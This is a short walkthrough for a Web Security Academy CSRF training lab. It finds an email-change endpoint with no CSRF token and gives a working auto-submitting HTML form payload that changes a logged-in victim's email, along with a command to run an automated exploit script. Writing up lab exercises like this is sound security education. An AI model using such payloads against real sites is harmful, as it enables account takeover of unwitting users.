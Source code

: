 # CSRF LAB 01 - CSRF vulnerability with no defenses

## Manual Solution

- Open the Web Security Academy lab environment in your browser.
- Log in with the credentials: username:wiener password:peter.
- Open your browser’s Developer Tools and switch to the Network tab.
- While logged in attempt to change your email address from the account settings page.
- Observe the request sent to the /my-account/change-email endpoint.
- Notice that the request does not contain a CSRF token, indicating that the endpoint is vulnerable to CSRF attacks.
- Go to the Exploit Server and paste the following HTML payload into the body of the page:
```html
    <html>
        <body>
            <form action="https://[YOUR_LAB_ID].web-security-academy.net/my-account/change-email" method="POST">
                <input type="hidden" name="email" value="hacker@hacker.com">
            </form>

            <script>
                document.forms[0].submit();
            </script>
        </body>
    </html>
```
- Save and deliver the exploit to the victim.
- When the victim visits the exploit page while logged in the browser automatically sends the POST request using the victim's session.

## Automated Solution

### 1. Download the script
### 2. Run the script with the following command:
```sh
python csrf_lab_01.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)
```